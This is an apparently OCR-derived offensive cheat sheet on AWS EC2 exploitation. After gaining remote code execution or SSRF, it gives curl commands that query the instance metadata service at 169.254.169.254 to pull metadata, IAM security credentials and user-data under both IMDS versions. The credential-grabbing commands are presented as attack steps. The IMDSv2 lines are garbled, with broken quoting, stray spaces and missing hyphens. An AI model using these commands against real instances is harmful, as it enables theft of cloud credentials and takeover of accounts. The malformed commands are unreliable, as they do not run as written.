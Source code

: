 # AWS EC2 Exploitation

### Initial Access can happen by RCE or SSRF

### Metadata can be used to exfiltrate information from the instance

# Remote Code Execution

## AWS Metadata

### If we have remote code execution or SSRF, we can grab metadata information

    curl http://169.254.169.254/latest/meta-data

### Grabbing the keys to access the instance

    curl http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials

### Grabbing the keys in metadata version 2

    TOKEN='curl -X PUT "http://169.254.169.254/latest/ api /token" -H "X-aws-ec2-metadata-token-ttl-seconds:' && curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data

## AWS Userdata

### Version 1

    curl http://169.254.169.254/latest/user-data/

### Version 2

    TOKEN='curl -X PUT "http://169.254.169.254/latest/ api /token" H "X-aws-ec2-metadata-token-ttl-seconds: && curl H "X-aws-ec2-metadata-token: $TOKEN" v http://169.254.169.254/latest/user-data
